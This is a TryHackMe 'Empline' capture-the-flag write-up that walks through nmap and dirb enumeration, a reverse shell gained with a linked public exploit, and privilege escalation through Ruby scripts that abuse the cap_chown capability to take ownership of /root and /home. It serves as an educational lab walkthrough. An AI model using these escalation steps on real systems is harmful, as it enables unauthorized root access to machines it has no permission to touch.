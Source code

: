 # Empline TryHackMe Room Write-Up

## Task 1: Host enumeration

Added the IP to /etc/hosts and conducted an initial port scan:

1.1 Looking for open ports `nmap -sC -sV empline.thm`. Discovered 3 open ports:

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/fd6d70f8-5877-4729-9c0c-f82ca5a3fa7f)

1.2 Looking for pages using dirb `dirb http://empline.thm`. No interesting pages found.

1.3 Navigated to the web application, located the Vhost link associated with the job portal (job.empline.thm), and added it to /etc/hosts.

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/b3bbf9b0-a372-454e-b81f-e56552a43778)

1.4 Found the system version on the portal and identified an exploit for privilege escalation.

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/21152b63-0d71-4125-800e-c715e1edad38)

After searching a bit we can found exploit. I used this [one](https://github.com/Nickguitar/RevCAT) to get in to the system.

## Task 2: Find the flags

My way to find the flags might be a bit cheety :)

2.1 Utilized the discovered exploit to gain a reverse shell.

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/fb820f16-a5ea-4fb8-8aed-6528449bc181)

Spent some time to look around the system and find the way to escalate priveleges.

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/3121477d-a2f2-439e-9396-6227a79ffee3)

2.2 I found interesting capability using this command `getcap -r / 2>/dev/null`. 

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/98d40a6c-10d2-4ace-a68e-47b39445366e)

2.3 Identified the potential to change ownership using Ruby due to the cap_chown capability.

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/6f431215-fab5-4e83-887b-d3318361338c)

I'm not good at upgrading reverse shells to stabilized ones, so without some essential capabilities like cd, nano, etc. it was a little bit painfull to create ruby script :)
After some research my first version of script
```
# Specify the file path
file_path = '/root'

# Specify the new owner and group
new_owner = 'www-data'
new_group = 'www-data'

# Use the File class to change ownership
begin
  File.chown(new_owner, new_group, file_path)
  puts 'Ownership changed successfully.'
rescue => e
  puts 'Error: #{e.message}'
end
```

To create the file script.rb I used this echo command:

```
echo  "# Specify the file path\\nfile_path = '/root'\\n\\n# Specify the new owner and group\\nnew_owner = 'www-data'\\nnew_group = 'www-data'\\n\\n# Use the File class to change ownership\\nbegin\\n  File.chown(new_owner, new_group, file_path)\\n  puts 'Ownership changed successfully.'\\nrescue => e\\n  puts 'Error: \#{e.message}'\\n  puts e.inspect\\nend" > script.rb

```
And got an error

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/9a3bdbef-8411-484f-91c8-64b16220f16f)

The next step was to search how to remove this error. I spent some time and here is my next version of script:
```
# Specify the directory path
directory_path = '/root'

# Specify the new owner and group
new_owner_username = 'www-data'
new_group_name = 'www-data'

# Convert username and group name to numeric IDs
new_owner = Etc.getpwnam(new_owner_username).uid
new_group = Etc.getgrnam(new_group_name).gid

# Use FileUtils to change ownership of the directory
begin
  FileUtils.chown_R(new_owner, new_group, directory_path)
  puts "Ownership of the directory changed successfully."
rescue => e
  puts "Error: #{e.message}"
  puts e.inspect
end
```
Corresponding echo command
```
echo "require 'fileutils'\\nrequire 'etc'\\n\\n# Specify the directory path\\ndirectory_path = '/root'\\n\\n# Specify the new owner and group\\nnew_owner_username = 'www-data'\\nnew_group_name = 'www-data'\\n\\n# Convert username and group name to numeric IDs\\nnew_owner = Etc.getpwnam(new_owner_username).uid\\nnew_group = Etc.getgrnam(new_group_name).gid\\n\\n# Use FileUtils to change ownership of the directory\\nbegin\\n  FileUtils.chown_R(new_owner, new_group, directory_path)\\n  puts 'Ownership of the directory changed successfully.'\\nrescue => e\\n  puts 'Error: #{e.message}'\\n  puts e.inspect\\nend" > script.rb
```
And here we are. Repeated the process for the /home directory.

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/37f50fe6-0c66-4def-9b7b-49739027eb57)

2.4 The flags

User.txt and Root.txt flags

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/6ef439b1-338c-47ee-af0b-f11319e9b6bc)

This room provided valuable insights into system capabilities :)

*Note: This write-up is intended for educational purposes and highlights the steps taken during the Empline [TryHackMe](https://tryhackme.com/room/empline) room.*








